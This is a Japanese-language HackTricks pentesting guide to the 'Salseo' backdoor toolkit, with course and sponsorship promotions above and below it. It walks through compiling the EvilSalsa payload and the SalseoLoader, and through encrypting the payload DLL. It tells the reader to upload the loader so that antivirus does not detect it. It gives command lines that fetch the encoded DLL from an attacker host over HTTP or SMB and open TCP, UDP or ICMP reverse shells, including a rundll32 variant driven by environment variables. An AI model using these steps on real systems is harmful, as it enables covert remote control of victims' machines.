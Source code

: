 # Salseo

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい**または **HackTricks をPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)、当社の独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを発見する
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**する
* **ハッキングトリックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## バイナリのコンパイル

GitHub からソースコードをダウンロードし、**EvilSalsa** と **SalseoLoader** をコンパイルします。コードをコンパイルするには **Visual Studio** が必要です。

これらのプロジェクトを、使用するWindowsボックスのアーキテクチャ用にコンパイルします（Windowsがx64をサポートしている場合は、そのアーキテクチャ用にコンパイルします）。

Visual Studio内で、**"Platform Target"** で **左側の "Build" タブ** でアーキテクチャを選択できます。

（\*\*このオプションが見つからない場合は、**"Project Tab"** を押し、次に **"<Project Name> Properties"** をクリックします）

![](<../.gitbook/assets/image (839).png>)

その後、両方のプロジェクトをビルドします（Build -> Build Solution）（ログ内に実行可能ファイルのパスが表示されます）:

![](<../.gitbook/assets/image (381).png>)

## バックドアの準備

まず、**EvilSalsa.dll** をエンコードする必要があります。これを行うには、pythonスクリプト **encrypterassembly.py** を使用するか、プロジェクト **EncrypterAssembly** をコンパイルできます:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows

### ウィンドウズ
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Ok, 今、Salseoのすべてを実行するために必要なものが揃いました: **エンコードされたEvilDalsa.dll** と **SalseoLoaderのバイナリ**。

**SalseoLoader.exeバイナリをマシンにアップロードしてください。どのAVにも検出されないようにしてください...**

## **バックドアを実行する**

### **TCPリバースシェルを取得する（HTTPを介してエンコードされたdllをダウンロードする）**

リバースシェルリスナーとHTTPサーバーを起動して、エンコードされたevilsalsaを提供することを忘れないでください。
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **UDPリバースシェルを取得する（SMBを介してエンコードされたdllをダウンロードする）**

リバースシェルリスナーとしてncを起動し、エンコードされたevilsalsaを提供するためのSMBサーバー（impacket-smbserver）を起動することを忘れないでください。
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **ICMPリバースシェルを取得する（エンコードされたdllはすでに被害者の中にある）**

**今回は、リバースシェルを受信するためにクライアントに特別なツールが必要です。ダウンロード:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **ICMP応答を無効にする:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### クライアントを実行する:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### 被害者の内部で、salseoの実行を許可します：
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## DLLのエクスポートメイン関数としてSalseoLoaderをコンパイルする

Visual Studioを使用してSalseoLoaderプロジェクトを開きます。

### メイン関数の前に追加: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### このプロジェクトにDllExportをインストール

#### **ツール** --> **NuGet パッケージ マネージャー** --> **ソリューションの NuGet パッケージを管理...**

![](<../.gitbook/assets/image (881).png>)

#### **DllExport パッケージを検索 (Browse タブを使用) し、インストールを押して (ポップアップを受け入れる)**

![](<../.gitbook/assets/image (100).png>)

プロジェクトフォルダに **DllExport.bat** と **DllExport\_Configure.bat** というファイルが表示されます

### **DllExport をアンインストール**

**アンインストール** を押します (はい、奇妙ですが、信じてください、必要です)

![](<../.gitbook/assets/image (97).png>)

### **Visual Studio を終了して DllExport\_configure を実行**

単に Visual Studio を **終了** します

その後、**SalseoLoader フォルダ**に移動して **DllExport\_Configure.bat** を実行します

**x64** を選択します (x64 ボックス内で使用する場合、私の場合はそうでした)、**System.Runtime.InteropServices** (DllExport の **Namespace** 内) を選択して **Apply** を押します

![](<../.gitbook/assets/image (882).png>)

### プロジェクトを再度 Visual Studio で開く

**\[DllExport]** はもはやエラーとしてマークされていません

![](<../.gitbook/assets/image (670).png>)

### ソリューションをビルド

**Output Type = Class Library** を選択します (プロジェクト --> SalseoLoader プロパティ --> アプリケーション --> Output type = Class Library)

![](<../.gitbook/assets/image (847).png>)

**x64 プラットフォーム** を選択します (プロジェクト --> SalseoLoader プロパティ --> ビルド --> Platform target = x64)

![](<../.gitbook/assets/image (285).png>)

ソリューションを **ビルド** するには: Build --> Build Solution (Output コンソール内に新しい DLL のパスが表示されます)

### 生成された DLL をテスト

DLL をテストしたい場所にコピーして貼り付けます。

実行:
```
rundll32.exe SalseoLoader.dll,main
```
エラーが表示されない場合は、おそらく機能するDLLを持っています！！

## DLLを使用してシェルを取得する

**HTTP** **サーバー**を使用して、**nc** **リスナー**を設定することを忘れないでください

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD

### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手してください
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)、当社の独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを発見してください
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
